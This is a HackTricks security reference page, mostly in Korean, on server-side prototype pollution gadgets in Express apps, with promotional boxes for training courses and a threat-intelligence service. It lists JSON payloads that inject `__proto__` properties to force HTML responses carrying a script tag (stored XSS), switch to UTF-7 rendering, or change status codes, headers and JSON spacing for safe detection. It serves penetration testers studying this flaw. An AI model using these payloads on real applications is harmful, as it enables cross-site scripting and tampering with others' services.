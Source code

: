 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)는 **다크 웹** 기반의 검색 엔진으로, 기업이나 고객이 **스틸러 맬웨어**에 의해 **침해**되었는지 확인할 수 있는 **무료** 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보 탈취 맬웨어로 인한 계정 탈취 및 랜섬웨어 공격에 맞서 싸우는 것입니다.

그들의 웹사이트를 확인하고 **무료**로 엔진을 사용해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

***

## Serve XSS responses

**자세한 내용은** [**원본 연구를 참조하세요**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON 콘텐츠 유형을 HTML로 변경

**JSON 콘텐츠 유형 응답**을 사용하는 Express 앱에서 JSON을 반영할 때:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
이 경우 JSON 콘텐츠 유형으로 XSS는 일반적으로 불가능합니다. 그러나 프로토타입 오염을 통해 **Express가 HTML 응답을 제공하도록 혼란을 줄 수 있습니다.** 이 취약점은 애플리케이션이 **`res.send(obj)`**를 사용하고 application/json 콘텐츠 유형으로 본문 파서를 사용하는 데 의존합니다.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** 및 **`_body`** 속성을 **오염시킴으로써**, **Express가 HTML 콘텐츠 유형을 제공하고** `_body` 속성을 반영하게 할 수 있으며, 이로 인해 저장된 XSS가 발생할 수 있습니다.

### UTF7 렌더링

Express가 **UTF-7 콘텐츠를 렌더링하도록** 만들 수 있습니다:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## 안전한 스캐닝 기술

### JSON 공백

다음 PP는 JSON 내부의 속성에 추가 공백을 만들어 기능이 중단되지 않도록 합니다:
```json
{"__proto__":{"json spaces": " "}}
```
그럼 반사된 JSON은 다음과 같이 보입니다:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

다음 PP 가젯은 서버가 HTTP 헤더를 반환하도록 합니다: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
It requires the **CORS 모듈이 설치되어야 합니다**

### **OPTIONS 메서드**

다음 페이로드를 사용하면 **OPTIONS 응답에서 메서드를 숨길 수 있습니다**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **상태**

다음 PP 페이로드를 사용하여 **반환된 상태 코드**를 변경할 수 있습니다:
```json
{"__proto__":{"status":510}}
```
### 오류

프리미티브인 문자열과 같은 것으로 프로토타입에 할당하면 **프로토타입은 객체여야 하므로 no-op 작업이 발생합니다**. `Object.prototype` 자체에 프로토타입 객체를 할당하려고 하면 **예외가 발생합니다**. 우리는 이 두 가지 동작을 사용하여 **프로토타입 오염이 성공했는지 감지할 수 있습니다**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

응용 프로그램이 응답에 객체를 포함할 때, **`__proto__`**와 함께 **비정상적인 이름의 속성**을 생성하는 것은 유용할 수 있습니다. 특히, **응답에 비정상적인 속성만 반환되는 경우**, 이는 응용 프로그램의 취약점을 나타낼 수 있습니다:
```json
{"unusualName":"value","__proto__":"test"}
```
또한, Lodash와 같은 라이브러리가 사용되는 시나리오에서는 프로토타입 오염(PP)을 통해 속성을 설정하는 것과 객체 내부에서 직접 설정하는 것이 또 다른 진단 접근 방식을 제공합니다. 만약 이러한 속성이 응답에서 생략된다면, 이는 Lodash가 병합하기 전에 대상 객체에서 속성의 존재를 확인하고 있음을 시사합니다:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express에는 **쿼리 문자열 매개변수로부터 객체를 생성할 수 있는** 옵션이 있습니다.\
이것은 확실히 **프로토타입 오염 취약점**을 악용하기 위한 버그 **체인**에서 사용할 수 있습니다.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz`는 Node에서 객체를 생성합니다.**

## 참고자료

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)는 **다크웹** 기반의 검색 엔진으로, 기업이나 그 고객이 **스틸러 맬웨어**에 의해 **침해**되었는지 확인할 수 있는 **무료** 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보 탈취 맬웨어로 인한 계정 탈취 및 랜섬웨어 공격에 맞서 싸우는 것입니다.

그들의 웹사이트를 확인하고 **무료**로 엔진을 사용해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
